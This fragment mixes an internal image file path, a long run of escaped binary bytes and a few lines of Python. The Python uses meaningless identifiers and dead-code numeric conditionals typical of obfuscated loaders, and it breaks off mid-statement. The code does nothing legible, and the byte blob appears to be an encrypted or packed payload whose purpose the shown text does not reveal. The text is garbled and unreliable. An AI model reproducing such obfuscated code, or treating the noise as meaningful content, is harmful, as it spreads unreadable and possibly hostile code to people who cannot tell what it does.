 \xc702;\xa9\r\xd86F\xef*PU\x8641\xcf_\xf0\xe2"\xc3\xddF\xd2\x1e\x84\x12\xf9\xc1p\x9f\xb4^Sp\x0eF:\x1c\xef\xb0H\xdckCu\xe3\x16\xee^w\xf0\xdc\x95\x0bd\xff\xce\xea\xd8\xe1\x890\xfb\xd9`.Mui\r\x95@Si"E\xb5\x16\xad\x02\xd6bO\xc4\xbd\x96\xe6\xd1\x8eP\xa3avmhVMZ\x05fWC\xf3w\x13\x840\x06<\xac]\xb6f\xe3a\x1bB\xbcv\xc4)\x84\xcb\x88_\xf5\xcb\xd6M\x1d\xc3\xd2\xa2\xf1\n\xce\x9d;z\xed|\x05\x11x>\xb1\xbf\x90\x1e<\t\xc2\x97\xd7\xa5lU\xe8t\x8a<\xc0\x07\x9cHe\x89\xf2\xa7,\x9c)\xec-\xad\x07\x97\xa5\xbd\xf3\x89\xe7Zj\xe1}\xc1A-\xd6#}\x19\x1e\xf2\xc6\xb77\x90\xb2\x03#\x17k0;,\x1b"\xbc\x10\x96\x0ba=fy\x86+\xba\xf4\x9f"\x0fe\\o\x9e_\xff\x06.\x8arlTDk\xdf\xd1[\x11\xa9M\x05ToJ1\x0c\xa3\xc5\xe8j(\x9aN=\x154x\x8a\x16/Z\xb3\x11\xdd\x9a\x0c"M\xa6\x10~\x03N6n\xd9\xfa*\xaea\x01>\xa9\x8f$\xba\x87\x818\x97u\x83D\x15\xcb]\x10r\xa9r>6\x84(\xc0GJD\x04\xad\x83\xb7t:\xbeE\xaf/\xfe\xec\x0cM;\x0c\xe0\xb4\xdd\xc0\x9c\xbc\x93\xe4O\x1e\x8a\xd6\x18\xc9\xc3iUkG\xdc\xae\x9fq\xe0\x9f\xef+\'\x1a\x1b\xf5S\xcdTO5\x08\'\xbb\xa8\xa4ZTR\x84\xbct6\xd6\x8a\xb54\x94\x84\x92\x11\xbdl\xcd\x1e\xb0\x0c\rq\x8e\xc8M(\xaeB\x03\xd6\xa2\xb5\nz Mwq\xe0\x92\t\x18}\x92.\xcb\xe9{I\xba\xacBP\xe09\xf5XZ\x963\xd46\xa8\x0c\x8b:\xbf\xf7\xc3\xf9\xc9\x92\xdf\xa22\xdfz\xaf\x9a\xca\x92\xb8\xb4\xb2\x98>\xf9\x14\xd1\xc9\x9f2\xc5\xcfjeG^\xe0\xd3\xbdx^\xc4R\xe5rv\x86\x87G\x8a\xbb?|\xa3?\xa2\xe0AJ\xa7\x07\t\x16\x1e\x13\xe9\x98P\x00\xcaP"\xde\x93_\xbfh\xcd\xfe>Gq\x80\xe0\xc3\x87\x18\xc1\xa4%;>\xa0\x08\xb0\xea"^\xa8K\xb8\x8d\'\xadU\xd0Cm\x92\xaaaf\x14\x06\xaf\xea$\x19\x9c\xd3w\xe3d\xf0\x16j\x0e7\xdf\x1e\xf1\x0c\xfc\x86\'%\x9e\x97(\xe4\xf9\xd63\x9c/.\x01v\x0e~]\xb0oi,$rM\xa4 \xe8I\xb8P{\x8d,\xb8X\xcbU\xce\xc4\x7f\x83Vo\x13\xed\xdf@b\x81\xf8\x9b\xfc\xe2Y,\xd6\xea)Nf"g\x16\x12\xad\x99e\xeb5\x1d\x7f\xd1\xaa\x87\x0f\x1fH\x0f\xfa\x03IC\x7f\xc0\xa5[h\x12\x18V\x83\xc2\x9a\xa3pp ;\xf7\x14\xaam\xe7\xado\x1d_[\x8c\xe7\xdbW@\xda6M\x14v\x86\xcb\x05\x1d\xc4&dJ\x8a\x8f\x07S\x8d\xf1\x9d\xe1')

        if 494303 > 5334966:
            _modulo.Statistics(Modulo = -89651 + _modulo.CallFunction)
        elif 171180 < 1676556: